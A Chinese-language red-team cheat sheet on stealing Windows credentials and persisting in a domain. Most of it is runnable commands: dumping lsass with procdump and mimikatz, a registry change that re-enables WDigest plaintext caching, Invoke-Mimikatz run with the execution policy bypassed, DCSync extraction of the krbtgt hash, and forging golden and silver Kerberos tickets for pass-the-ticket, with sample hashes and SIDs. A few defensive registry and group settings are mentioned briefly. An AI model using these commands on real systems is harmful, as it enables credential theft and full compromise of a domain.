









#抓密码
##绕杀软
必须使用管理员权限
procdump+mimikatz
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe “sekurlsa::minidump lsass.dmp” “sekurlsa::logonPasswords full” exit

ekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full

##win10/win2012 R2用户明文密码
###抓取明文：
手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码
###原理
当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码
此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。
###利用
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
锁屏
powershell -file lock-screen.ps1
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
使用本地的mimikatz.exe读取lsass.dmp。
##不兼容
win2012 r2不兼容的时候
使用powershell版本的mimikatz
Invoke-Mimikatz.ps1
powershell -exec bypass “import-module.Invoke-Mimikatz.ps1;Invoke-Mimikatz”
##wdigest明文密码
WDigest
###范围
Windows XP-Windows 8.0 和 Windows Server 2003-Windows Server 2012
Microsoft 在 Windows8.1，Windows 10，Windows Server 2012 R2 和 Windows Server 2016 系统中默认禁用此协议
###防御
Negotiate 和 UseLogonCredential 注册表项值应设置为 0 可以完全禁用此协议
Microsoft 已发布了一个补丁（KB2871997），允许管理员启用或禁用 WDigest 协议。打完补丁后，建议验证是否已经从注册表中禁用 WDigest
##lsa交互
Windows Server 2012R2 和Windows 8.1 之前的系统，攻击者可以执行 Mimikatz 命令来与 LSA 交互并检索存储在 LSA 内存中的明文密码
sekurlsa::logonPasswords
###防御
在HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA
创建注册表项 RunAsPPL 并设置其值为 1
##凭证缓存
如果域控制器不可用，Windows 将检查已缓存的最后一个密码哈希值，以便使用系统对用户进行身份验证
HKEY_LOCAL_MACHINE\SECURITY\Cache
###攻击
如果执行 Mimikatz 以下命令，可以检索这些哈希值：
lsadump::cache
受保护的用户组
WindowsServer 2012 及更高版本中的 Microsoft 引入了一个名为「Protected Users」的新安全组
此组使域管理员能够保护本地管理员等有权限的用户
属于该组的任何帐户只能通过 Kerberos 对域进行身份验证
防止 NTLS 密码哈希值或 LSAS 中的纯文本凭据泄露给敏感帐户
PowerShell 命令将帐户添加到「受保护的用户」组中
Add-ADGroupMember –Identity ‘Protected Users’ –Members Jane
通过安装 Microsoft 的补丁 KB2871997，WindowsServer 2008 等较旧的操作系统可以拥有此安全组。
##抓krbtgt的hash
域控上执行
lsadump::lsa /patch
31834030dc700e7fb1f0955fa21836a6
mimikatz log “lsadump::dcsync /domain:test.com /user:krbtgt”
###黄金票据
sid whoami /all
S-1-5-21-3617263104-3895675313-3447860874-500
31834030dc700e7fb1f0955fa21836a6
####使用krbtgt的hash值
/ user —伪造的用户名
/ groups（可选）：513,512,520,518,519为默认的管理员组。
/ id（可选） - 用户RID。Mimikatz默认值是500（默认管理员帐户RID）。
企业管理员SID：S-1-5-21
#####利用
kerberos::golden /admin:Administrator /domain:test.com /sid:S-1-5-21-3617263104-3895675313-3447860874 /krbtgt:31834030dc700e7fb1f0955fa21836a6
/id:500 /ticket:1.kirbi
mimikatz::ptt 1.kirbi
或者/ptt

####使用krbtgt的aes256值
sekurlsa::ekeys
好的方法是使用日志记录功能将回显内容输出到文件中，开启日志记录功能后会把输出回显的内容保存在同级目录下的mimikatz.log中，命令参考如下：
mimikatz log privilege::debug sekurlsa::ekeys
#####
keberos认证

##白银票据
9a163fca485a2f0ceace1b055d047cbe

S-1-5-21-3617263104-3895675313-3447860874
kerberos::golden /admin:administrator /id:2601 /domain:test.com /sid:S-1-5-21-3617263104-3895675313-3447860874 /target:bak6ry-ad2003.test.com /rc4:9a163fca485a2f0ceace1b055d047cbe /service:cifs /ptt

###测试
53b6d8ac02e7fe818f171992169b1750
SID : S-1-5-21-2952760202-1353902439-2381784089-500
domain GOD.ORG
aes256
Administrator
97782e856bfb6d0a5d80d7f9c07a1f12e9ca68dbdfdf057bdccea9857bc3ae70
kerberos::golden /user:liukaifeng01 /domain:GOD.ORG /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /rc4:81be2f80d568100549beac645d6a7141 /service:cifs /ptt
